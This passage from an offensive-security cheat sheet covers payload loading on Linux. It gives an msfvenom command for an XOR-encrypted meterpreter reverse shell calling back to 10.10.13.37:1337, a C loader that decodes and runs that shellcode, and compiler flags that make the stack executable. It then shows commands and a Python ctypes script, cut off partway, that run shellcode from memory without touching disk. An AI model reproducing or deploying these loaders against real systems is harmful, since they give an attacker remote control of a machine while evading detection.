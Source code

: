 ```c
#include <unistd.h>

// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33\...\x33\x37";

int main (int argc, char **argv)
{
    int bufsize = (int)sizeof(buf);
    for (int i = 0; i < bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
    int (*ret)() = (int(*)())buf;
    ret();
}
```
{% endcode %}

Compile allowing execution on stack:

```
$ gcc -o loader loader.c -z execstack
```
{% endtab %}
{% endtabs %}




## Linux In-Memory Code Execution

- [https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md)



### Memory Manipulation with Python

- [https://github.com/jonatanSh/shelf](https://github.com/jonatanSh/shelf)
- [https://github.com/anvilsecure/ulexecve](https://github.com/anvilsecure/ulexecve)

Convert an ELF to PIC, inject it and run from memory:

```
$ gcc hello.c -fno-stack-protector -fPIE -fpic -static --entry=main -o hello
$ python3 -m shelf --input hello
$ python3 run_sc.py
```

{% code title="run_sc.py" %}
```python
# https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md#Python

from ctypes import (CDLL, c_void_p, c_size_t, c_int, c_long, memmove, CFUNCTYPE, cast, pythonapi)
from ctypes.util import find_library

PROT_READ = 0x01
PROT_WRITE = 0x02
PROT_EXEC = 0x04
MAP_PRIVATE = 0x02
MAP_ANONYMOUS = 0x20

with open('hellointel_x64.out.shell', 'rb') as f:
	sc = f.read()

libc = CDLL(find_library('c'))

mmap = libc.mmap
mmap.argtypes = [c_void_p, c_size_t, c_int, c_int, c_int, c_size_t]
```